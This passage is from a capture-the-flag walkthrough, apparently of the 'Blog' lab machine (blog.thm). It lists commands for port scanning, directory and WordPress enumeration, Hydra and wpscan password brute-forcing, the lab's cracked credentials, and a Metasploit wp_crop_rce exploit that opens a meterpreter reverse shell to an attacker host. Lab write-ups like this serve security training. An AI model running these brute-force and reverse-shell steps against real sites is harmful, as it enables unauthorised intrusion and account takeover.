 Perform detailed scans on the identified ports:
```bash
nmap -p22,80,139,445 -n -Pn -vvv -sCV --min-rate 5000 blog.thm -oN nmap/open_port
```

2.2. Web Enumeration

Discover directories using Gobuster:
```bash
gobuster dir -u blog.thm -w /usr/share/wordlists/dirb/common.txt
```

Scan for WordPress vulnerabilities and users:
```bash
wpscan --url http://blog.thm -e u --api-token <your_token>
```

### 3. Exploitation

3.1. Brute Force Credentials

Use Hydra or WPScan to find valid credentials:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt http-get-form "http://10.10.207.208/wp-login.php:log=^USER^&pwd=^PASS^:F=incorrect"
```
or
```bash
wpscan --url http://blog.thm --usernames admin,bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
```

Other Method:
```bash
curl http://blog.thm/xmlrpc.php
wpscan --url http://blog.thm --usernames admin,bjoel,kwheel --passwords /usr/share/wordlists/rockyou.txt
```

Credentials Found:

Username: kwheel

Password: cutiepie1


3.2. Remote Code Execution

Search for exploits:
```bash
searchsploit wordpress 5.0
```

Use Metasploit to exploit the vulnerability:
```bash
use exploit/multi/http/wp_crop_rce
set RHOSTS blog.thm
set USERNAME kwheel
set PASSWORD cutiepie1
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```
